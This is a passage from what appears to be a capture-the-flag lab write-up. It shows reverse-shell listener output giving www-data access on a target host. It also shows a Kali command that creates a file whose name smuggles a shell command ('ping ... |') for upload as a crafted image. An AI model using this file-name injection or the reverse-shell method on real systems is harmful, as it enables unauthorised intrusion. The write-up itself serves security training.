 ```bash
[+] Waiting for connections on :::1111: Got connection from ::ffff:10.10.11.197 on port 33588
[*] Switching to interactive mode
bash: cannot set terminal process group (962): Inappropriate ioctl for device
bash: no job control in this shell
www-data@investigation:~/uploads/1682155243$ $ cd ~
cd ~
www-data@investigation:~$ $ ls
ls
html
uploads
www-data@investigation:~$ $
```


### Manually

https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429

![](/assets/obsidian/98b27e0c0acafac6f13562dc4e2bfd95.png)

![](/assets/obsidian/cacf48260d063e7daf4acc55556e58ff.png)

Upload the crafted image

```
┌──(root㉿kali)-[/home/kali]
└─# cp 756-536x354.jpg 'ping 10.10.14.45 -c 1 |'
```
